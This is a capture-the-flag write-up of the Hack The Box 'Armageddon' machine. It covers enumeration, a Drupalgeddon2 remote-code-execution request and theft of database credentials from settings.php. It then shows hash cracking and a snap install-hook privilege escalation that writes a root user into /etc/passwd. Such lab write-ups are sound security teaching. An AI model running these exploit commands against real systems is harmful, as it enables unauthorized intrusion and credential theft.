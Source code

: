 ![](armageddon_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.233 armageddon.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

* nmap found robots.txt file on the server.

## Identify CMS

* wappalyzer identify cms is drupal 7

![](screenshots/wappalyzer-scan.png)

* Running [droopescan](https://github.com/droope/droopescan) found the drupal version

![](screenshots/droopescan-scan.png)

* searching for exploit in searchsploit found RCE

![](screenshots/searchsploit-scan.png)

# Foothold

## Drupal property injection: Drupalgeddon 2

* [CVE-2018-7600/SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)
  * A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.
* [gotmilk gist of diffrent drupal drupalgeddon2 PoCs](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)

```bash
id=$(curl -k -s 'http://armageddon.htb/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=id' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id | cut -d'"' -f6) && echo $id

curl -s "http://armageddon.htb/?q=file/ajax/name/%23value/$id" \
    --data "form_build_id=$id" | head -n -1
```

![](screenshots/drupal-exploit.png)

**Exploit Script**

* Drupalgeddon2 Exploit script from [dreadlocked@github](https://github.com/dreadlocked/Drupalgeddon2)

![](screenshots/web-shell.png)

Got a restricted shell on the box.

### Execute mysql in non interactive shell

shell is almost completely disconnected and restricted from file system. nothing to do here.

back to web server, found a file `/update.php` that tells access dinied and refer to `settings.php`
* Drupal cms sites all config settings available in the `../sites/<site-name>/settings.php`

![](screenshots/find-settings.png)

Found mysql database password in `settings.php` file

![](screenshots/db-creds.png)

creds are working but don't have intractive shell

![](screenshots/mysql-login.png)

Using mysql commandline flags to execute database command
```bash
-e, --execute=name  Execute command and quit.
-D, --database=name Database to use.
```

and found admin password hash who is also the user in the box
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'SELECT * FROM users;'
```

![](screenshots/pwd-hash.png)

admin user hash cracked with john 
```bash
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
![](screenshots/hash-cracked.png)

successfully login to ssh with admin creds

![](screenshots/ssh-login.png)

# Privesc

## `snap install` with sudo
<!--brucetherealadmin:booboo-->

in the box user "brucetherealadmin" have sudo right to run `/usr/bin/snap` as root with NOPASSWD.
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Found Exploit on [gtfobins](https://gtfobins.github.io/gtfobins/snap/)

**Create snap package**
* Generate password hash with command `openssl passwd "Password"`
```bash
COMMAND='echo "toor:VmIEBMKbM9avc:0:0:root/root:/bin/bash" >> /etc/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p 'booboo' scp ./xxxx_1.0_all.snap brucetherealadmin@armageddon.htb:/home/brucetherealadmin/snap
```

And finally run
```bash
sudo -u root /usr/bin/snap install * --dangerous --devmode
```

![](screenshots/armageddon-rooted.png)

